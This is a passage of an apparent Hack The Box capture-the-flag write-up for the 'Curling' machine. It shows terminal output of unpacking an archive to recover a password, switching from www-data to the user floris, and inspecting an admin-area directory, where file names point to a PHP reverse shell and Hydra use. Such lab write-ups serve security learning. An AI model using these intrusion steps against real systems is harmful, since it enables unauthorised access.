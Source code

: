 ```
7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs AMD Ryzen 9 3900X 12-Core Processor             (870F10),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10240 bytes (10 KiB)

Extracting archive: password~
--
Path = password~
Type = tar
Physical Size = 10240
Headers Size = 9728
Code Page = UTF-8

Everything is Ok

Size:       19
Compressed: 10240
kali@kali:~/htb/Curling$ ls
cewl.txt  hydra.restore  pass_back  password  password~  password.txt  pass_zip  pass_zip~  php-reverse-shell.php
kali@kali:~/htb/Curling$ cat password.txt
5d<wdCbdZu)|hChXll
```
What a compression nightmare. We finally decompress down to a text file eventually.

Now we have the password(hopefully), so let's try it:

```
www-data@curling:/home/floris$ su -l floris
Password: 
floris@curling:~$ whoami
floris
floris@curling:~/admin-area$ sudo -l
[sudo] password for floris: 
Sorry, user floris may not run sudo on curling.
floris@curling:~/admin-area$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)

```

Now we can check out the admin area:

```
floris@curling:~$ cd admin-area/
floris@curling:~/admin-area$ ls
input  report
floris@curling:~/admin-area$ ls -la
total 16
drwxr-x--- 2 root   floris 4096 May 22  2018 .
drwxr-xr-x 6 floris floris 4096 May 22  2018 ..
-rw-rw---- 1 root   floris   25 Feb  6 00:57 input
-rw-rw---- 1 root   floris   94 Feb  6 00:57 report
floris@curling:~/admin-area$ cat input
url = "http://127.0.0.1"
floris@curling:~/admin-area$ cat report
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection timed out (110)
```
